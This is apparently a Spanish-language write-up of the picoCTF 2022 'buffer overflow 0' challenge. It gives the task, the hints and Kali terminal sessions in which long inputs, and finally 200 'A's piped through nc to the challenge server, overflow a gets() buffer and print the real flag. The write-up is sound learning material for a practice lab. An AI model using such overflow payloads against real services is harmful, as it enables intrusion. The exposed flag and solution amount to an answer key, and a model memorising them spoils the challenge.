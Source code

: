 # Binary Explotation

## Descripcion

Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/522/vuln). You can view source [here](https://artifacts.picoctf.net/c/522/vuln.c). And connect with it using: `nc saturn.picoctf.net 51110`

## Pistas (Si hay)

1.- How can you trigger the flag to print?

2.- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

3.- Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solución

``` Bash

┌──(kali㉿kali)-[~/…/Obsidian Vault/picoCTF/Retos Binary Explotation picoCTF 2022 Parte 1/buffer overflow 0]
└─$ echo 'flag{dummieflag}' > flag.txt                    
                                                                                                                    
┌──(kali㉿kali)-[~/…/Obsidian Vault/picoCTF/Retos Binary Explotation picoCTF 2022 Parte 1/buffer overflow 0]
└─$ ./vuln                                                
Input: asdfasdfafsd
The program will exit now
                                                                                                                    
┌──(kali㉿kali)-[~/…/Obsidian Vault/picoCTF/Retos Binary Explotation picoCTF 2022 Parte 1/buffer overflow 0]
└─$ ./vuln                            
Input: wertwertttttttttttttttwertwertwertwer    wefqwefqwefqertqeryqrtqerfqergqwerqegergqergqergqergqergqergqergqergqeqiwuehfpuqwhefupoqwehfpqouwihefpuqwefhpuoiqwhfepuqwehfpuoqwhefpuoiqhwefpuwqhefpoiuwqhefpuqowhefpouwqhefpuoiqwhefpouqwhefpoiuqwhefpouqwehfpqwoiuefhqpwueofqwpeuhf
flag{dummieflag}

                                                                                                                    
┌──(kali㉿kali)-[~/…/Obsidian Vault/picoCTF/Retos Binary Explotation picoCTF 2022 Parte 1/buffer overflow 0]
└─$ nc saturn.picoctf.net 51110
Input: wertwertttttttttttttttwertwertwertwer    wefqwefqwefqertqeryqrtqerfqergqwerqegergqergqergqergqergqergqergqergqeqiwuehfpuqwhefupoqwehfpqouwihefpuqwefhpuoiqwhfepuqwehfpuoqwhefpuoiqhwefpuwqhefpoiuwqhefpuqowhefpouwqhefpuoiqwhefpouqwhefpoiuqwhefpouqwehfpqwoiuefhqpwueofqwpeuhf
                                                                                                                    
┌──(kali㉿kali)-[~/…/Obsidian Vault/picoCTF/Retos Binary Explotation picoCTF 2022 Parte 1/buffer overflow 0]
└─$ nc saturn.picoctf.net 51110 <<< $(python3 -c "print('A'*200)")
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}


```

## Referencias